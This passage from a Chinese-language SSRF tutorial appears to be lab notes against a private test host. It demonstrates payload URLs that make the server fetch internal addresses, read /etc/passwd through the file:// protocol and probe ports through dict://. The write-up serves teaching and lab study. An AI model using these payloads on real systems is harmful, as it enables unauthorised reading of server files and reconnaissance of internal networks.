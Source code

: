 ### 7.1 http/https协议

当前应用获取用户传递过来的url参数后端发送请求，并且将最终的请求结果返回到html前端页面。

```
http://192.168.11.135/ssrf.php?url=http://www.baidu.com
http://192.168.11.135/ssrf.php?url=https://www.baidu.com
```

![image-20220407165249756](../../../../imagesimage-20220407165249756.png)

![image-20220407165711442](../../../images/image-20220407165711442.png)

但这里需要注意的一点是，当前网站页面返回的内容并非是从当前用户`pc`端浏览器发送的，而是，服务器端接收到客户端传递过来的`url`参数，然后在后端服务器代码中通过构造请求发送，最终将结果返回到前端，如果在这里用户传递的是一个内网应用的`ip`，当前返回的结果：

`192.168.10.1` 为网关

```
http://192.168.11.135/ssrf.php?url=http://192.168.10.1
```

![image-20220407170001347](../../../images/image-20220407170001347.png)

ssrf漏洞服务器所在的内网大小，互通的网段，限制了当前能够获取到资源的数量。

如果当前服务器端对请求资源的协议做了限制，那么可以通过`https`协议进行绕过。

### 7.2 file协议

如果服务器端对请求资源所使用的协议方式没有进行限制，那么就可以通过file协议访问当前服务器的本地文件

```
http://192.168.11.135/ssrf.php?url=file:///etc/passwd
```

![image-20220407170508624](../../../images/image-20220407170508624.png)

### 7.3 dict协议

通过`dict` 协议可以远程访问一个指定的tcp 端口，并且会返回端口所提供的服务的部分组件信息

当目标端口开放（有服务信息显示，但会报错）：

```
http://192.168.11.135/ssrf.php?url=dict://localhost:80
```

![image-20220407171210337](../../../images/image-20220407171210337.png)

当目标端口关闭（无任何显示）：

```
http://192.168.11.135/ssrf.php?url=dict://localhost:8080
```

![image-20220407171306127](../../../images/image-20220407171306127.png)
